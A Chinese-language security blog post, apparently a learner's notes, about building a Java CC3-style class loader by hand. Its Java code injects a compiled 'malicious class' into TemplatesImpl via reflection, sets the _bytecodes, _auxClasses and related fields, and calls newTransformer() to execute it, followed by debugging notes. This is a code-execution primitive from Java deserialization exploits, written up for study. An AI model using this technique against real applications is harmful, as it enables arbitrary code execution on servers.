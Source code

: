 ```yaml
---
title: "一个搞笑的铸币CC3"
onlyTitle: true
date: 2024-8-1 11:21:21
categories:
- java
- CC
tags:
- CC
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B892.jpg

---
```




今天没事想自己写个CC3类加载

结果为了顺利触发到TemplatesImpl#getTransletInstance的newInstance给我整急眼了，使劲改字段强行通过循环
![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/52b9cf112fac47398f1dd43765926eb7.png)

刚才判定了，_auxClasses为transient，不能用这种方法

结果搞了个下面的代码出来

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Properties;

public class CC3TemplatesImpl {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "CC6TiedMapEntry");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            } else if (field.getName().equals("_outputProperties")) {
                field.set(templatesClass, new Properties());
            } else if (field.getName().equals("_transletIndex")) {
                field.set(templatesClass, 0);
            } else if (field.getName().equals("_auxClasses")) {
                field.set(templatesClass, new HashMap<>());
            }
        }
        templatesClass.newTransformer();
    }
}
```
你别说，还真TM能跑。![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/bd39e593812d4fe8b63b3e1c14d9cc5b.png)说一下怎么搞的
调试的时候bytecode数组只有一个恶意类，就创建不了hashMap，后面就put不进去。
![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/00d7d3bddf1c48db8327039c4c27ac6c.png)于是我bytecode传了两个恶意数组

```java
	field.set(templatesClass, new byte[][]{code,code});
```
结果进第二个catch，hashMap不能重复put
![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/6c6442df540e46b79bcce2e74b388a0d.png)我又传了个空字节，我去，空字节不能defineClass，连循环都出不了

```java
	field.set(templatesClass, new byte[][]{code,new byte[0]});
```
突然想到，我自己搞个hashMap就完了，用他的干毛啊
于是

```java
else if (field.getName().equals("_auxClasses")) {
                field.set(templatesClass, new HashMap<>());
            }
```
感觉像个大铸币写的